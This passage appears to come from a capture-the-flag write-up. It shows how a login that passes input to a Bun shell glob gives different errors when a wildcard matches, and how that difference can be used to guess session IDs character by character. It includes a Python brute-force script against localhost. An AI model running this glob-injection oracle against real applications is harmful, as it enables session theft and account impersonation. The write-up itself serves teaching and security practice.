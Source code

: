 This prints the `sessionId`s we were looking for earlier. If we can somehow read these, we have the signing key to create a valid cookie and impersonate the session.

We cannot read the `/tmp/auth.log` file, however. Instead, we should look at what happens when it *doesn't* match with a wildcard like `/tmp/sessions/nonexistent*`:

> ShellError: Failed with exit code 1
> bun: no matches found: /tmp/sessions/nonexistent*

The request errors out and we get a different response. We can abuse this to find if there are sessions that match any wildcard expression. By then going through all possible first characters, we should find some of them successful. If we keep expanding these to be more and more specific, eventually we will find a whole session:

```
/tmp/sessions/A* -> no matches found
/tmp/sessions/B* -> no matches found
/tmp/sessions/C* -> Invalid username or password!
/tmp/sessions/CA* -> no matches found
/tmp/sessions/CB* -> no matches found
/tmp/sessions/CC* -> no matches found
/tmp/sessions/CD* -> Invalid username or password!
/tmp/sessions/CDA* -> no matches found
/tmp/sessions/CDB* -> no matches found
...
```

The above can be implemented easily in Python:

```py
import string
import requests

s = requests.Session()

HOST = "http://localhost:8000"

def login(username, password=""):
    r = s.post(HOST + "/login",
               data={"username": username, "password": password},
               allow_redirects=False)
    return r.status_code == 302

session = ""
for i in range(32):
    for c in string.ascii_letters + string.digits + "_-":
        if login(f"/tmp/sessions/{session}{c}*.json"):
            session += c
            print(session)
            break
    else:
        raise Exception("Failed to find next character")

print(f"Found session: {session}")
```
